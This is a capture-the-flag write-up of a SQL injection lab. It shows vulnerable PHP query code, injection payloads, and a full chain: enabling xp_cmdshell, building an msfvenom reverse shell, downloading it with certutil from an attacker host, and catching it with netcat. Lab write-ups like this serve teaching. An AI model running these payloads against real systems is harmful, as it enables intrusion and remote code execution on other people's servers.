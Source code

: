```yaml
---
layout: single
title: "[Day 10] SQL injection Inject the Halls with EXEC Queries"
header:
  teaser: "/assets/images/hacking-teaser.JPG"
---
```


# Day 10 
Is about sql injection

# Theory SQLi
Assuming php is doing a query like this: 

```
// Retrieve the GET parameter and save it as a variable
$colour = $_GET['colour'];

// Execute an SQL query with the user-supplied variable
$query = "SELECT * FROM tbl_ornaments WHERE colour = '$colour'";
$result = sqlsrv_query($conn, $query);
```

When we can define the value of 'colour' we could pass ```' OR 1=1 --``` into it.  
* The ```'``` would terminate the string quoting
* The -- would terminate what might come after (Like the other string quoting)

This leads to the query being true for all rows and the result would be filled with all rows.

We also can pass something like this (called stacked query) 

```
' ; INSERT INTO tbl_ornaments (elf_id, colour, category, material, price) VALUES (109, 'Evil Red', 'Broken Candy Cane', 'Coal', 99.99); --
```


# Challenge

## Simple
We see the website url: ```http://10.10.89.208/giftresults.php?age=child&interests=toys&budget=100```

Assuming the php code looks something like: 

```
$age = $_GET['age'];
$interests = $_GET['interests'];
$budget = $_GET['budget'];

$sql = "SELECT name FROM gifts WHERE age = '$age' AND interests = '$interests' AND budget <= '$budget'";

$result = sqlsrv_query($conn, $sql);
```

So lets use the simplest trick of all: 

```http://10.10.89.208/giftresults.php?age=' OR 1=1 -- interests=crafts&budget=30```

## Call cmdshell

```
http://MACHINE_IP/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

This command will enable "advanced options" and it will enable xp_dmcshell.

As the result from a shell command will be returned as row of text and doesn't fit into the original query. So you will most probably not see right away if the code execution worked or not.

### Remote code execution
This step only works if previous step also worked. 

Lets create a payload for reverse shell:
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe```

And lets start a http server on the attack box. This server will serve the forged payload. 
```python3 -m http.server 8000```

calling: ```http://10.10.89.208/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --```

uses certutil to download the payload. 

Lets start listening with netcat on the attackbox on port 4444 and wait for the reverse shell.
```nc -lnvp 4444```

After calling this, we should see the reverseshell communicate. 
```http://MACHINE_IP/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --```


Once the connection worked, we are in the database server as the sqlexpress database user.

